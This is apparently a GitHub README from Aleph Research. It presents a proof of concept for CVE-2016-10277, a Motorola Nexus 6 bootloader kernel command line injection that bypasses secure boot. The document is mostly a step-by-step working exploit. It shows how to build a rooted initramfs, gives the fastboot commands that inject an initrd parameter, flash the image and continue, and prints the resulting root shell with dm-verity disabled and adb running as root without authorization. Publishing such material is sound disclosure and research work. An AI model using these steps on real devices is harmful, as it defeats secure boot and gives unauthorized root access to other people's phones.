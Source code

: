 # PoC for initroot: Nexus 6 Motorola Bootloader Kernel Command Line Injection Secure Boot Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies 

Steps:

1. Use the commited `initroot.cpio.gz`, or produce your own:

```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot.cpio.gz
$ cd ..
```

Our commited initramfs contains an AOSP userdebug root partition with adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the system partition.

2. `fastboot oem config fsg-id "a initrd=0x11000000,<initroot.cpio.gz size>"`
3. `fastboot flash foo initroot.cpio.gz`
4. `fastboot continue`
5. if you use our initramfs, `adb shell` will now give you a root shell:

```
$ adb shell
shamu:/ # id 
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```


Blog post with details is available [here](https://alephsecurity.com/2017/05/23/nexus6-initroot/)





